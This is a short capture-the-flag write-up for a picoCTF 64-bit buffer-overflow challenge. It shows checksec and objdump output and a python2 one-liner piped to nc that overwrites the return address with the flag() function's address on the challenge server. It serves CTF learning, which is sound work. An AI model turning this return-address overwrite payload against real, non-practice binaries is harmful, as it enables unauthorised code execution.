 # X-SIXTY-WHAT

- This challenge is a basic 64-bit buffer overflow.

- Program has no PIE, so it is pretty easy.

```
λ ~/x-sixty-what/ checksec --file=vuln

[*] '~/x-sixty-what/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- We just overwrite `64 bytes` of `buf` then 8 bytes of `RBP` and write 8 bytes address of `flag()` to `ret` of `vuln()`.

```
λ ~/x-sixty-what/ objdump -D vuln | grep "flag"
0000000000401236 <flag>:
  40125e:       75 29                   jne    401289 <flag+0x53>
```

- Run this bash command and we get the flag.

```
python2 -c 'print("a"*72 + "\x36\x12\x40\x00\x00\x00\x00\x00")' | nc saturn.picoctf.net 57066
```

> At this time, server looks like has a bug, so I can't receive the flag.